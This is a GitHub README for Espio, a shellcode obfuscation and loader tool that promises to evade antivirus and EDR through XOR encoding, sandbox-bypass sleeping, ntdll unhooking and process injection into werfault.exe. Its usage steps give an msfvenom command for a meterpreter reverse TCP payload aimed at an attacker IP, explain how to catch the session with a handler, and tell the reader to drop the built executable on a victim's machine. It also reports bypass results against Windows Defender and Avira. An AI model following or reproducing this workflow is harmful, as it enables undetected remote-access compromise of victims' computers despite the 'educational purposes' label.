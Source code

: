 # Espio (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

## Features
- Obfuscation - base64 encoding and XOR encryption with a randomly generated key.
- Sandbox Bypass - custom sleep function.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Requirements
Espio requires [Python3](https://www.python.org/) and [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/) to use.

## Usage
1. Clone the repository:
```bash
git clone https://github.com/Konis-Bros/Espio.git
```

2. Generate the shellcode. In this demonstration we will be using msfvenom in a kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

3. Put the shellcode in the cloned repository and use the obfuscator.py tool to obfuscate it:
```bash
python3 obfuscator.py shellcode
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Note: Our shellcode then be obfuscated to **obfuscatedPayload.bin** with the **key.bin** key and saved in loader/Espio.

4. Open loader/Espio.sln, the Visual Studio solution file.

5. Build The project. Note that the executable file will be located at loader/x64/Debug/Espio.exe.

6. On the attacker's machine, listen for TCP connections on the defined port. In our case, run metasploit's multi/handler on port 1337.

7. Drop the executable onto the victim's machine and run it.

## Recommendations
- In step 2 and 6, create meterpreter session over HTTPS. For more information see [Meterpreter HTTP/HTTPS Communication](https://www.rapid7.com/blog/post/2011/06/29/meterpreter-httphttps-communication/).
- In step 5, change the build configuration from Debug to Release. Note that the executable file will now be located at loader/x64/Realease/Espio.exe.

## Tests
Espio was examined against:

### Windows Defender:

<img src="images/defender_bypass.png" alt="Defeder Bypass">

### Avira Prime:

<img src="images/avira_bypass.png" alt="Avira Bypass">

### ANTISCAN:

<img src="images/antiscan.png" alt="ANTISCAN">

## Authors and acknowledgments
- [@dkonis](https://github.com/dkonis) - Research & Development
- [@RonKon](https://github.com/RonKonis) - Development
- [@SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
